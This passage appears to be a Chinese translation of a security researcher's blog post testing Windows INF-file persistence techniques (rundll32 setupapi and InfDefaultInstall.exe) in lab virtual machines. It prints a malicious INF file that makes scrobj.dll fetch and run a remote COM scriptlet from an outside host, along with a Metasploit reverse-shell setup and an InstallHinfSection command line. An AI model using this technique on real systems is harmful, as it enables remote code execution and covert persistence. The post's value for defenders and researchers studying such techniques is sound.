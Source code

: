 [Manufacturer]
HuntressLabs=ModelsSection,NTx86,NTia64,NTamd64

; ———————————————————————-
; Models Section
; ———————————————————————-
[ModelsSection.NTx86]
UnregisterDlls = Squiblydoo

[ModelsSection.NTia64]
UnregisterDlls = Squiblydoo

[ModelsSection.NTamd64]
UnregisterDlls = Squiblydoo

; ———————————————————————-
; Support Sections
; ———————————————————————-
[DefaultInstall]
UnregisterDlls = Squiblydoo

[Squiblydoo]
11,,scrobj.dll,2,60,https://blog.conscioushacker.io/testaroo.sct

我將把它放在我的桌面上，並稱之為“testaroo.inf”。我還在我的Blog上託管了COM scriptlet payload。下一步是創建一個註冊表項。

![](https://i.imgur.com/HenWxrG.png)

我的metasploit監聽器仍在運行，所以我們要做的只是重啟Windows 7虛擬機並等待它返還我們要的shell。不幸的是，我沒有得到任何shell，所以我打開Process Hacker來看看發生了什麼事。

![](https://i.imgur.com/1INwldO.png)

我們的流程樹中的“rundll32.exe”在哪裡？我怎麼都找不到欸？為了簡化本節論述，我嘗試在Windows 7和Windows 10上使用HKLM和HKCU。但我仍無法使用autoruns註冊表項工作，但是，在Windows 7上手動執行“rundll32.exe setupapi,InstallHinfSection ModelsSection 128 C:\Users\lopi\Desktop\testaroo.inf”時，它倒是正常運作了。我嘗試使用前面提到的calc.exe概念證明。 Chris和Kyle在談話中並沒有提到Windows 10要求驅動程序擁有合法簽名，以便在沒有用戶提示的情況下進行安裝。在這一點上，我決定停深入探討這個。

# **InfDefaultInstall.exe自動運行技術**
進入下一個技術，“InfDefaultInstall.exe”。讓我們馬上開始吧？

![](https://i.imgur.com/2dTJ9w8.png)

好的，我們可以使用“InfDefaulInstall.exe”而不是“rundll32.exe”，並用與以前一樣的方法使用它。讓我們啟動我們的Windows 10虛擬機，看看我們是否有相同的數位簽章以及UAC提示“InfDefaultInstall.exe”。

![](https://i.imgur.com/Vy5bGFs.png)

有UAC提示欸。那數字簽名呢？

![](https://i.imgur.com/NAnpHet.png)

悲劇，這對於Windows 10來說並不可行。我建議你在Windows 7或更舊版本上使用這種技術，如果你想實踐它的話。我無法在Windows 7和Windows 10上通過autoruns註冊表項運作。這在演講中聽起來很套路很經典，但我猜這在實踐中是兩碼子事。
